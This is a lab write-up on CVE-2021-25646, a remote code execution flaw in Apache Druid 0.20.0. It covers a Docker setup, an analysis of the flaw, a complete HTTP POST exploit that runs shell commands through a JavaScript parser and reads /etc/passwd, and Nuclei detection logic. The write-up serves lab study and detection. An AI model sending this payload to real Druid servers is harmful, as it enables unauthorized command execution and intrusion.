


# CVE-2021-25646: Apache Druid Remote Code Execution

## Vulnerability Overview

**Apache Druid** is an open-source, distributed data store designed for real-time ingestion and analysis of large volumes of data. The **CVE-2021-25646** vulnerability arises from Druid's **JavaScript functionality**.

-----

## Reference:

  - [https://paper.seebug.org/1476/](https://paper.seebug.org/1476/)
  - [https://lists.apache.org/thread.html/rfda8a3aa6ac06a80c5cbfdeae0fc85f88a5984e32ea05e6dda46f866%40%3Cdev.druid.apache.org%3E](https://lists.apache.org/thread.html/rfda8a3aa6ac06a80c5cbfdeae0fc85f88a5984e32ea05e6dda46f866%40%3Cdev.druid.apache.org%3E)
  - [http://www.openwall.com/lists/oss-security/2021/01/29/6](http://www.openwall.com/lists/oss-security/2021/01/29/6)
  - [https://lists.apache.org/thread.html/r64431c2b97209f566b5dff92415e7afba0ed3bfab4695ebaa8a62e5d@%3Cdev.druid.apache.org%3E](https://lists.apache.org/thread.html/r64431c2b97209f566b5dff92415e7afba0ed3bfab4695ebaa8a62e5d@%3Cdev.druid.apache.org%3E)
  - [https://nvd.nist.gov/vuln/detail/CVE-2021-25864](https://nvd.nist.gov/vuln/detail/CVE-2021-25864)
  - [https://hub.docker.com/r/vulhub/apache-druid](https://hub.docker.com/r/vulhub/apache-druid)
  - [https://github.com/vulhub/vulhub/tree/master/apache-druid/CVE-2021-25646](https://github.com/vulhub/vulhub/tree/master/apache-druid/CVE-2021-25646)

-----

## Vulnerability Lab Setup

This lab uses Docker to set up a vulnerable Apache Druid environment.

1.  **Vulnerable Environment:**

      * Run a vulnerable version of Apache Druid (0.20.0) using Docker Compose.
      * Execute the following command to start the server in the background:

    <!-- end list -->

    ```bash
    docker compose up -d
    ```

2.  **Access:**

      * Once the container is running, you can access the Apache Druid initial page by navigating to `http://localhost:8888` in your web browser.



-----

## In-depth Analysis

By default, Apache Druid disables the user-provided JavaScript execution feature (`druid.javascript.enabled=false`) for security reasons.

However, this vulnerability exploits the fact that sending a specific JSON request to the `/druid/indexer/v1/sampler` API endpoint can override the server's disabled setting and forcibly enable the JavaScript parser. An attacker can then insert malicious code into the `function` field of this parser to execute arbitrary commands on the server.

The key to this exploit is adding an empty-key parameter, `"":{"enabled":"true"}`, within the `parseSpec` object, which overwrites the global configuration.

-----

## Exploitation

This vulnerability is exploited by sending a malicious JavaScript payload via an HTTP **POST** request to achieve remote command execution.

1.  **Request:**

      * Send the following HTTP **POST** request to the `http://your-ip:8888/druid/indexer/v1/sampler` endpoint.
      * Insert the desired shell command within the `function` field of the request body. The example below uses the `id` command to retrieve current user information.

    <!-- end list -->

    ```http
    POST /druid/indexer/v1/sampler HTTP/1.1
    Host: your-ip:8888
    Content-Type: application/json
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en-US;q=0.9,en;q=0.8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
    Connection: close
    Cache-Control: max-age=0

    {
        "type":"index",
        "spec":{
            "ioConfig":{
                "type":"index",
                "firehose":{
                    "type":"local",
                    "baseDir":"/etc",
                    "filter":"passwd"
                }
            },
            "dataSchema":{
                "dataSource":"test",
                "parser":{
                    "parseSpec":{
                    "format":"javascript",
                    "timestampSpec":{

                    },
                    "dimensionsSpec":{

                    },
                    "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                    "":{
                        "enabled":"true"
                    }
                    }
                }
            }
        },
        "samplerConfig":{
            "numRows":10
        }
    }
    ```

2.  **Exploit Result:**

      * The response will be a JSON object containing the output of the **`id`** command, confirming successful remote code execution.

-----

## Automated Verification with Nuclei

You can use the provided Nuclei template for automated detection of this vulnerability.

##### **Nuclei Template Logic**

The `CVE-2021-25646.yaml` template identifies the vulnerability when **all** of the following conditions are met:

  * **Request Logic:**

      * It sends a malicious payload to `POST /druid/indexer/v1/sampler` designed to read the contents of the `/etc/passwd` file.

  * **Match Logic (`matchers-condition: and`):**

    1.  **`status: 200`**: Checks if the HTTP response code is `200 OK`.
    2.  **`header: application/json`**: Verifies that the response header contains `application/json`.
    3.  **`regex: "root:.*:0:0:"`**: Uses a regular expression to check the response body for the string `root:...:0:0:`, a pattern characteristic of the `passwd` file. **This is the key evidence for detection.**
    4.  **`words: "numRowsRead", "numRowsIndexed"`**: Checks the response body for keywords indicating that Druid processed the data normally, which increases detection accuracy.

## Nuclei Template URL: [CVE-2021-25646](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-25646.yaml)

## Nuclei Command:

```bash
nuclei -u http://localhost:8888 -id CVE-2021-25646 -vv
```
